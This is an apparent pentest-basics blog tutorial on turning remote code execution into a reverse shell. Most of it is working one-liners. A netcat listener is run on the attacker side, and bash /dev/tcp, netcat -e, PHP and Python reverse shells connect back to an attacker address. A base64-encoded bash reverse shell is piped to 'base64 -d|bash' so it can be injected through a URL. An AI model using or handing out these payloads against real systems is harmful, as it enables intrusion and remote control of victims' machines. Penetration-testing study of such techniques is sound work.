 ```yaml
---
layout: post
title:  "Get reverse shell with RCE"
tags: ['reverse-shell', 'pentest-basics']
---
```


## Introduction

When we are triying to pwn a machine we look for a shell connected to the victim's machine. Sometimes we can found some credentiales or RSA keys to connect via SSH. More times we can't get a SSH shell but we have some [RCE][rce].
In this article we are going to cover different ways to get a reverse shell with [RCE][rce]

Soon, in later articles we are going to be covering how to upgrade these shell's because these are not interactive, means, for example, that if we press TAB we won't get an autocompletion, we will just get a tabulation. 

Also, a good practice before try to connect a reverse shell is try to test this RCE first create the shell.


For the porpous of this post we are going to be using an Ubuntu FocalFossa machine from [osboxes.org ][osboxes]

## Concepts and notation
In order to follow this post we have to make clear some concpets and notation.
When we say $IP we mean the ip address of the attacker's machine. You can choose any port for $PORT, just remember have to be a number between 1 and 65,535. Also the port have to be free, no service have to be running. A common port used to reverse shell is 443

## From attacker's machine
In most of the cases we are going to use netcat in order to listen to the comunication
This will be the only command we execute in our attacker's machine, the rest of them will be executed on the victim's machine.

We have to run:
```bash
nc -lvnp $PORT
```
With this command we are going to be waiting for connecions at this port in our machine.

## From victim's machine
The command that we have to inject are one of those:

### Bash

This is propably the easiest way to do it.
We have to enter this command in the victim's machine

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

### Netcat

If netcat is installed in the victmim's machine we can also got a reverse shell
```bash
nc -nv $IP $PORT -e /bin/sh
nc -nv $IP $PORT -e /bin/bash
```
Either of this two commands will work.

### PHP

If we have php installed on the victim's machine we can:
```php
 php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Special cases
We just saw a few ways to get a reverse shell but sometimes we have to inject the code on an url. So there's a problem because if we try to inject the bash code we can see that there is some special characters that the web would recognize like /. We wan't to pass that command as a string, so the web can't recognize that characters.

### Encode to base64
First we have encode the command to base64.
```bash
echo $command_to_convet | base64
```
For example we are going to convert:
```bash
bash -i >& /dev/tcp/192.168.1.36/443 0>&1
```
The result:
```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMzYvNDQzIDA+JjEK
```
We notice that now we dont have those special characters that were bothering us, but now we have another problem.
We can't just pass this encode string and expect the victim's machine to recognize IT.

So we have to tell it how to decode and execute, THIS IS THE FINAL URL COMMAND THAT WE HAVE TO INJECT:
```bash
echo $encode_string|base64 -d|bash
```
We just to put the previusly encoded string into the $encode_string variable




[osboxes]: https://www.osboxes.org/
[rce]: https://www.n-able.com/blog/remote-code-execution

